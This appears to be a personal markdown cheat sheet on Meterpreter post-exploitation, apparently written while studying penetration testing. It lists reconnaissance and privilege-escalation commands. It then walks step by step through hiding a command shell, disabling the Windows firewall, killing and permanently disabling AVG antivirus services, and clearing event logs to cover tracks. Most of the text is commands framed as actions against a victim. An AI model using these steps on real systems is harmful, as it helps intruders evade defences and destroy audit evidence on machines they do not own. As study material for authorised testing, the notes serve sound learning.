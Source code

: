 # Meterpreter & Post-Exploitation

1. Understanding the victim better (recon)
2. Privilege Escalation (Exploitation)
3. Deleting Logs and Killing Monitoring Software (Post, covering tracks)
4. Collecting Data, Executing programs etc. (recon)
5. Backdoors and Rootkits (post)
6. Using victim as a pivot to hack deeper into the network (exploitation)

### Meterpreter Commands -  post recon

- sysinfo
- getuid
- getpid (current process id)
- ps (see all process)
- idletime (check if user is using the computer by checking their idletime)
- run checkvm (check if the sys is on vm or baremetal, post mt script)
- run get_env (check what environment)
- routes
- ifconfig
- run get_application_list
- run scraper (big info dump to your pc @ msf/logs/scripts/scraper/<IP><datecreated>)
- run winenum (Also info gathering but more on system, like firewall config)

- run (to see what mt posts script you can run)

### 2.PE
example: minishare program has an exploit in metasploit (search it in metasploit)

- getuid
- getsystem -h to learn how to use
- rev2self to revert
- migrate <pid> (after getting privilege, you can migrate to any processes)

### 3.Detecting Logs and shutdown AV

- execute -f cmd.exe -c -H (to get a win cmd, -c to channelize it, -H to hidden from view, remote computer wont come up cmd)
  - interact 1 (talk to channel 1) [Inside win cmd]
  - netsh firewall show opmode (check firewall situation) [Inside win cmd]
  - netsh firewall set opmode mode= DISABLE (disable firewall)
  - netsh firewall show opmode to check again
 
- run killav (kill the antivirus) might not always work
- Lets do it Manually in the target machine
  - now lets do it with a cmd in the machine `execute -f cmd.exe -c -H` `interact 2` (this time it will be on channel 2)
  - `tasklist` to see all ask, avg is what we want to look for which is antivirus
  - `tasklist /SVC` to catergorize them by respondence and look at what is the root of all avg services, /SVC being 'run it along with services hosted by them
  - `tasklist /SVC | find /I "avg"` to see service further down the service tree (all of the service with "avg"), /I being non case sensitive
  - `taskkill /?` to see how to use taskkill, `/?` is like `-h` in linux
  - after that we run `taskkill /F /IM "avg*"`, /F being force, /IM is the Image Name or the process/executable that you want to kill, and we want to kill everything starting with avg with`*` wildcard indicating behind it
  - Nice, let's `tasklist /SVC | find /I "avg"` to see what is still there. And the kill didn't work, it killed some but not the root program started those services again
  - `net stop <service>` to stop specific task, so `net stop avgwd`, and it says it cannot be stopped
  - lets see the attributes of these 2 services `sc queryex avgwd` & `sc queryex AVGIDSAgent`, `sc` is service config manager, `queryex` is query extended, meaning it show more info than `query`
  - It says 'Not stoppable and not pausable, but accepts shutdown', so we can disable it next time when reboot, it is just not stoppable after it booted up
  - `sc config avgwd start= disabled` & `sc config AVGIDSAgent start= disabled`, it should show something like `[SC] ChangeServiceConfig SUCCESS` so it is disabled and now we just need to reboot
- `exit` the win cmd, back to the meterpreter shell. Lets `reboot` the computer
- Let's `exploit` the system again to get back in after it reboot, and `execute -f cmd.exe -c -H` `interact 1` and `tasklist /SVC | find /I "avg"` and the root service isn't there!!!
- Now lets' finally kill the task `taskkill /F /IM "avg*"` and mess with the system!
- Let's mess the log files up so people have no idea whatsup. In meterpreter, run `clearev` to clear event logs

